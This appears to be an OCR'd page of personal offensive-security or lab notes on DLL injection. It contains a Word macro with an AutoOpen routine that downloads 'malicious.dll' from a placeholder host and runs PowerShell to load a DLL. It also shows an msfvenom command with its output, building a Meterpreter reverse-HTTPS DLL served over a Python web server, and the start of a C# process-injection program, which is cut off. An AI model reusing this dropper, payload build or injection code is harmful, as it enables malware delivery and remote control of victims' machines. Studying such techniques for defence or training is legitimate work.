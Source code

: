 Although more complex, DLL injection can theoretically be performed using an MS Word Macro. The macro would execute the necessary Windows API calls via PowerShell or another scripting language capable of invoking native APIs. However, this approach is risky and would likely trigger security alerts.

Here's a simplified concept:

```vb

Private Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Private Declare PtrSafe Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal hwnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long

Sub AutoOpen()
    Dim downloadURL As String
    Dim filePath As String
    downloadURL = "http://example.com/malicious.dll"
    filePath = Environ("TEMP") & "\malicious.dll"
    URLDownloadToFile 0, downloadURL, filePath, 0, 0
    ShellExecute 0, "open", "powershell.exe", " -c ""[System.Reflection.Assembly]::LoadFile('C:\path\to\your\dll.dll')""", "", 0
End Sub

```



- create payload and start web server
```bash
❯ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 -f dll -o met.dll
[sudo] password for roger: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 781 bytes
Final size of dll file: 9216 bytes
Saved as: met.dll
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.141 - - [27/May/2024 13:12:35] "GET /met.dll HTTP/1.1" 200 -

```

- modified code to make the web connection more modern
- TODO: migrate the DllImport statements to CsWin32 or convert to c++
```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);


        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

```